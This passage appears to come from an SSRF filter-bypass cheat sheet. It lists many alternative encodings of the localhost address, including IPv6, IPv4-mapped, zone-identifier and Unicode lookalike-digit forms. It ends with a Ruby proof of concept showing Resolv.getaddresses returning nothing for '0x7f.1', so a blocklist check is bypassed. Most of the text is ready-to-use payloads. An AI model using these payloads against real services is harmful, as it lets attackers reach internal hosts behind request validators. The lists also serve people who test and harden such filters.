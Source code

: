 - IPv6 localhost:

    ```http
    [::]
    0000::1
    [::1]
    0:0:0:0:0:0:0:0
    ```

- IPv4-mapped IPv6 address: `[::ffff:7f00:1]`
- IPv4-mapped IPv6 address: `[::ffff:127.0.0.1]`
- IPv4-compatible IPv6 address (deprecated, q.v. [RFC4291](https://tools.ietf.org/html/rfc4291#section-2.5.5.1): `[::127.0.0.1]`
- IPv4-mapped IPv6 address with [zone identifier](https://tools.ietf.org/html/rfc6874): `[::ffff:7f00:1%25]`
- IPv4-mapped IPv6 address with [zone identifier](https://tools.ietf.org/html/rfc6874): `[::ffff:127.0.0.1%eth0]`

### Abuse of enclosed alphanumerics

Enclosed alphanumerics is a Unicode block of typographical symbols of an alphanumeric within a circle, a bracket or other not-closed enclosure, or ending in a full stop, q.v. [list](https://jrgraphix.net/r/Unicode/2460-24FF).

```http
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```

## Abusing a bug in Ruby's native resolver

`Resolv::getaddresses` is OS-dependent, therefore by playing around with different IP formats one can return blank values. 

Proof of concept:

```ruby
irb(main):001:0> require 'resolv'
=> true
irb(main):002:0> uri = "0x7f.1"
=> "0x7f.1"
irb(main):003:0> server_ips = Resolv.getaddresses(uri)
=> [] # The bug!
irb(main):004:0> blocked_ips = ["127.0.0.1", "::1", "0.0.0.0"]
=> ["127.0.0.1", "::1", "0.0.0.0"]
irb(main):005:0> (blocked_ips & server_ips).any?
=> false # Bypass
```
